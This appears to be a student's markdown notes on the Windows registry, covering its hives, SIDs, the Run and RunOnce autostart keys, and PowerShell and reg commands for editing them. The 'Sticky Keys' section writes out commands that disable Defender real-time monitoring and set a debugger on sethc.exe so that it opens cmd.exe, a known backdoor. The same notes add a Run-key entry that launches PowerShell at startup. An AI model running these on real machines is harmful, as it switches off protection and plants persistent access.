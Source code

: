 # Windows Registry Notes

The windows registry stores all information about the operating system.

## Registry Hives

- `HKEY_CLASSES_ROOT`
- `HKEY_CURRENT_USER`
- `HKEY_LOCAL_MACHINE`
- `HKEY_USERS`
- `HKEY_CURRENT_CONFIG`

## HKEY_USERS

#### SID

A SID (Security Identifier) are unique to each user on the system.

One key per user.

```powershell
# List the usernames and associated SIDs
Get-LocalUser | select name,sid
```

The registry entry under that SID within the `HKEY_USERS` hive mirrors the
`HKEY_CURRENT_USER` hive.

## HKEY_LOCAL_MACHINE

#### Run

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

The run key will automatically run anything in this key on startup.

There are user run keys and machine run keys.

#### Run Once

```
Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
```

Same thing as `Run` but only for once.

## Entries

Entries have Name, Type, and Data

#### Data Types

- `REG_BINARY`
- `REG_DWORD`
- `REG_QWORD`
- Many more

## Registry Manipulation with PowerShell

#### Queries

```powershell
# Get the items in one or more specified locations.
Get-ChildItem [keypath]

# Get the properties of a key or subkey.
Get-ItemProperty

# Get item at location. Doesn't get contents unless * is used.
Get-Item
```

```powershell
# Get subkeys of Run
Get-ChildItem HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# Get values in Run
Get-Item HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

#### Modifiers

```powershell
# Change value of a property.
Set-ItemProperty

# Remove a reg value.
Remove-ItemProperty

# Rename a reg value.
Rename-ItemProperty
```

```powershell
Rename-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -Name SecurityHealth -NewName Test
```

#### Create

```powershell
# Specify a reg path to create a new key.
New-Item

# Create new reg value.
New-ItemProperty
```

## Command Line RegEdit

```cmd
reg /?

reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run

reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v testme /t REG_SZ /d
 C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v testme
```

## Sticky Keys Vulnerability

```powershell
# Disable Realtime Monitoring
Set-MpPreference -DisableRealtimeMonitoring $TRUE

# Create sethc reg key
new-item "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"

# Set the key value.
New-ItemProperty -path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -Name Debugger -Type String -Value C:\Windows\System32\cmd.exe
```

## Powershell PSDrives

PSDrives are data store locations that you can access like a file system
drive in PowerShell.

```powershell
Get-PSDrive

# Create a new PSDrive
New-PSDrive -Name Demo -PSProvider FileSystem -Root c:\Demo

# Nav to new PSDrive
cd C:\Demo
```
